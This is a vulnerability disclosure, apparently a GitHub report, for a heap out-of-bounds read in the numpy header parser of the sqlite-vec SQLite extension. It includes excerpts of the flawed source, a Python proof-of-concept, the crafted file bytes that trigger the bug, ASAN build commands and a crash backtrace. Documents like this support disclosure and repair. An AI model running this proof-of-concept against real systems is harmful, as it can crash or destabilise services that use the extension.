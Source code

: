 version: 0.1.1

tag: OOBR, VectorDB, Parse

https://github.com/asg017/sqlite-vec


A vector search SQLite extension which has 3.6k stars. It can load numpy file.

```c
//https://github.com/asg017/sqlite-vec/blob/main/sqlite-vec.c#L2473C1-L2478C2
void npy_scanner_init(struct NpyScanner *scanner, const unsigned char *source,
                      int source_length) {
  scanner->start = (unsigned char *)source;
  scanner->end = (unsigned char *)source + source_length;
  scanner->ptr = (unsigned char *)source;
}

// https://github.com/asg017/sqlite-vec/blob/main/sqlite-vec.c#L2489C1-L2500C70
int parse_npy_header(sqlite3_vtab *pVTab, const unsigned char *header,
                     size_t headerLength,
                     enum VectorElementType *out_element_type,
                     int *fortran_order, size_t *numElements,
                     size_t *numDimensions) {

  struct NpyScanner scanner;
  struct NpyToken token;
  int rc;
  npy_scanner_init(&scanner, header, headerLength);

  if (npy_scanner_next(&scanner, &token) != VEC0_TOKEN_RESULT_SOME &&  //<-----[1]
    ...
```

The function `parse_npy_header` is used to parse the numpy file. It uses `scanner` to record the position.
`npy_scanner_next` continues to call `npy_token_next`.

```c
//https://github.com/asg017/sqlite-vec/blob/main/sqlite-vec.c#L2390
int npy_token_next(unsigned char *start, unsigned char *end,
                   struct NpyToken *out) {
  unsigned char *ptr = start;
  while (ptr < end) {
    unsigned char curr = *ptr;
    if (is_whitespace(curr)) {
      ptr++;
      continue;
    } else if (curr == '(') {
      ...
    } else if (curr == '\'') {
      unsigned char *start = ptr;
      ptr++;
      while (ptr < end) {  //<----------------[2]
        if ((*ptr) == '\'') {
          break;
        }
        ptr++;            
      }
      if ((*ptr) != '\'') {     //<----------------[3]
        return VEC0_TOKEN_RESULT_ERROR;
      }
      out->start = start;
      out->end = ++ptr;
      out->token_type = NPY_TOKEN_TYPE_STRING;
      return VEC0_TOKEN_RESULT_SOME;
    } else if (curr == 'F' &&
        ...
    } else if (is_digit(curr)) {
        ...
    } else {
      return VEC0_TOKEN_RESULT_ERROR;
    }
  }
  return VEC0_TOKEN_RESULT_ERROR;
}
```

In npy_token_next, a problem occurs in the parsing of `'`. When the first `'` appears, it continues to scan forward, attempting to find the second `'`, but if there is no matching single quote for the first `'` in the entire data, it will exit the while loop, at which point `ptr==end`, pointing to the next address in the data space, i.e., an illegal address, which causes an out-of-bounds read at [3]. 


Poc code:

```python
import sqlite3

def execute_all(cursor, sql, args=None):
    if args is None:
        args = []
    results = cursor.execute(sql, args).fetchall()
    return list(map(lambda x: dict(x), results))

def connect(ext, path=":memory:", extra_entrypoint=None):
    db = sqlite3.connect(path)
    db.enable_load_extension(True)
    db.load_extension(ext)
    db.row_factory = sqlite3.Row
    return db

db = connect("./dist/vec0")

vec_npy_each_f = lambda *args: execute_all(
    db, "select * from vec_npy_each(?)", args
)

with open("./poc.npy", "rb") as f:
    data = f.read()
    print(vec_npy_each_f(data))
```

Poc data:
`00000000: 934e 554d 5059 0000 0200 2722            .NUMPY....'"`


Poc env:

We should compile with ASAN: `clang -fPIC -shared -Wall -Wextra -g -O0 -lm -lsqlite3 sqlite-vec.c -o dist/vec0.so`.  
Then, install python library sqlite-vec.  
Last, run `LD_PRELOAD=/usr/lib/llvm-14/lib/clang/14.0.0/lib/linux/libclang_rt.asan-x86_64.so python3 poc.py -detect_leaks=0`

Backtrace:
```
=================================================================
==829223==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60200000003c at pc 0x555555b71042 bp 0x7fffffff3db0 sp 0x7fffffff3da8
READ of size 1 at 0x60200000003c thread T0
[Detaching after fork from child process 829233]
    #0 0x555555b71041 in npy_token_next /sqlite-vec/sqlite-vec.c:2437:12
    #1 0x555555b717be in npy_scanner_next /sqlite-vec/sqlite-vec.c:2481:12
    #2 0x555555b71a9a in parse_npy_header /sqlite-vec/sqlite-vec.c:2500:7
    #3 0x555555b743bf in parse_npy_buffer /sqlite-vec/sqlite-vec.c:2808:12
    #4 0x555555b9c35d in vec_npy_eachFilter /sqlite-vec/sqlite-vec.c:2967:10
    #5 0x555555891c5b in sqlite3VdbeExec /sqlite-vec/vendor/sqlite3.c:101441:8
    #6 0x5555557875cd in sqlite3Step /sqlite-vec/vendor/sqlite3.c:91222:10
    #7 0x5555557730a4 in sqlite3_step /sqlite-vec/vendor/sqlite3.c:91283:16
```

